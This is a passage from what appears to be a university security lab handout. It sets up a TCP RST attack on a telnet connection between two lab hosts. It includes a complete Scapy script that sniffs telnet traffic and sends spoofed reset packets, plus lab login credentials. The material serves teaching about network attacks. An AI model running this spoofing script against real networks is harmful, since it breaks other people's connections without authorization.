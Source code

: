 - In the `README.md` file for this module explain how the __synflood.py__ Python script works and the results of your experiment. 


## Task 2: TCP RST Attacks on telnet Connections

__Note:__ 
- Use cmsc334-2 as the host that you will use to `telnet` into cmsc334-1.
- Use cmsc334-1 to launch the __RST__ packets.


The TCP __RST__ Attack can terminate an established TCP connection between two victims. For example, if there is an established `telnet` connection (TCP) between two users A and B, attackers can spoof a __RST__ packet from Host A to Host B, breaking this existing connection. To succeed in this attack, attackers need to correctly construct the TCP __RST__ packet. In this task, you need to launch a TCP __RST__ attack from Host A to break an existing `telnet` connection between Host A and Host B. To simplify the module, we assume that the attacker and the victim are on the same LAN, i.e., the attacker can observe the TCP traffic between Host A and Host B.

Launching the attack. Please use Scapy to conduct the TCP __RST__ attack. Python code is provided in the following, which will launch the attack automatically. The code will we get parameters from sniffed packets, so the attack is automated. 

__rst_attack.py__
```python
#!/usr/bin/env python
from scapy.all import *

# cmsc334-1 : 172.18.123.6
# cmsc334-2 : 172.18.123.5

def reset(pkt):
    sniffed_tcp = pkt[TCP]

    ip = IP(src="172.18.123.6", dst="172.18.123.5")
    tcp = TCP(sport=sniffed_tcp.dport, dport=sniffed_tcp.sport, flags="R", seq=sniffed_tcp.ack)  # R flag is the reset RST
    pkt = ip/tcp
    ls(pkt)

    send(pkt, verbose=0)

# Setup a filter to capture telnet traffic between Host A and Host B.
tcpFilter = 'tcp and src host 172.18.123.5 and dst host 172.18.123.6 and dst port 23'

# Sniff for a packet and call the reset function when a packet is found.
sniff(iface='eth0', filter=tcpFilter, prn=reset) 
```

First `telnet` from __Host B__ (cmsc334-2) to __Host A__ (cmsc334-1)
```shell
$ telnet x-mcs-cmsc334-1
```
- Login with __user:__ testuser with __password:__ testuser
